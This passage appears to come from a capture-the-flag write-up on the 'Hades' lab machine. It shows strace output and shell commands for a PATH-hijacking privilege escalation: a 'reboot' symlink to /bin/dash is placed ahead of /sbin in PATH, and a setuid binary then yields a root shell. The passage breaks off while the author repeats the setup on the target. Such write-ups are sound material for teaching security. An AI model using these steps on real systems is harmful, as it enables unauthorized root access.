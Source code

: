 Ok, much better. The program opens the counter file to change its contents, but for what purpose, I didn't know. I ran the program again until it triggered its reboot feature. This is the interesting bit that caught my eye: 

```
[080490af] clone(Process 27730 attached
child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xbf9b67e4) = 27730
[pid 27638] [080567de] waitpid(27730, Process 27638 suspended
 <unfinished ...>
[pid 27730] [08065dcf] rt_sigaction(SIGINT, {SIG_DFL, [], 0}, NULL, 8) = 0
[pid 27730] [08065dcf] rt_sigaction(SIGQUIT, {SIG_DFL, [], 0}, NULL, 8) = 0
[pid 27730] [08065ed9] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[pid 27730] [08056844] execve("/bin/sh", ["sh", "-c", "reboot"], [/* 32 vars */]) = 0
[pid 27730] [b77c325d] brk(0)           = 0x98e9000
[pid 27730] [b77c4461] access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
[pid 27730] [b77c45a3] mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb77ab000
```

The program calls reboot without specifying an absolute PATH. This meant I could trick it into running my own code as long as it was in a directory before /sbin. I created a reboot symbolic link to /bin/dash in my home directory and updated my PATH variable so that my home directory was first on the list. 

```
root@kali:~# ln -s /bin/dash reboot
root@kali:~# export PATH=/root:${PATH}
root@kali:~# ls -l reboot
lrwxrwxrwx 1 root root 9 Apr 14 21:05 reboot -> /bin/dash
root@kali:~# echo $PATH
/root:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Once that was done, I ran display_root again until it triggered its call to reboot, and gave me a shell instead:

```
root@kali:~# ./display_key 

	Ready to dance?

Enter password: 
12345
#
# id
uid=0(root) gid=0(root) groups=0(root)
```

Could it be that simple? I decided to try it on Hades and see if it would work. I created the same setup as I had done on my machine so that I had a symbolic link reboot to /bin/dash and updated my PATH so that my symbolic link to /bin/dash would be called instead of /sbin/reboot:

```
loki@Hades:~$ pwd
/home/loki
loki@Hades:~$ ln -s /bin/dash reboot
loki@Hades:~$ export PATH=/home/loki:${PATH}
loki@Hades:~$ ls -l reboot
lrwxrwxrwx 1 loki loki 9 Apr 15 02:52 reboot -> /bin/dash
loki@Hades:~$ echo $PATH
/home/loki:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
loki@Hades:~$ cd /display_root_ssh_key/
```
